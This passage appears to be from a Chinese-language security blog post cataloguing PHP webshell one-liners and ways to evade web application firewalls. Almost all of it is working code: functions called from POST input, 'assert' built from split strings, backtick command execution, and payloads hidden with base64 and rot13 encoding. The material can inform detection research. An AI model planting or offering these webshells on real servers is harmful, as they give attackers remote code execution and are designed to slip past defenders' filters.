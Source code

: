 ```php
<?php $_POST['fun']($_REQUEST['req']);?>
```

![img](https://klionsec.github.io/img/common%20webshell.png)

```php
<?php  $req = "a"."s"."s"."e"."r"."t";$req($_POST["klion"]); ?>		//字符分割
```

![img](https://klionsec.github.io/img/assert%20simple.png)

```php
<?php $cmd = `$_POST[ch]`;echo "<pre>$cmd</pre>";?>		
```

![img](https://klionsec.github.io/img/fanyinhao.png)

```php
<?php $arr = array("a"=>"$_POST[fun]");$a = "${ $arr["a"]( $_POST[code])}"; ?>
```

![img](https://klionsec.github.io/img/fun%20code.png)

```php
<?php 
$XKs1u='as';$Rqoaou='e';
$ygDOEJ=$XKs1u.'s'.$Rqoaou.'r'.'t';
$joEDdb ='b'.$XKs1u.$Rqoaou.(64).'_'.'d'.$Rqoaou.'c'.'o'.'d'.$Rqoaou;
@$ygDOEJ(@$joEDdb($_POST[nihao]));
?>
```

![img](https://klionsec.github.io/img/chaifenbase64.png)



## 2.编码bypass

利用各类编码来消除静态特征,以此来扰乱waf识别流量,说实话这种还是相对比较容易被检测到

利用base64编码,这种编码可能是各类webshell中用的最频繁的一种,如,weevely中默认就是用的base64,所以免杀性相对较好,另外还有诸如各类免杀大马,过waf菜刀等等……

```php
<?php $a = @base64_decode($a=$_POST['fun']);$a($_POST['code']);?>
```



![img](https://klionsec.github.io/img/base64%20common.png)

利用rot13编码,也用的比较频繁,关于各类编码的内部工作细节,请仔细阅读开发手册

```php
<?php $a=str_rot13('nffreg');$a($_POST['req']);?>
```



![img](https://klionsec.github.io/img/rot13%20common.png)
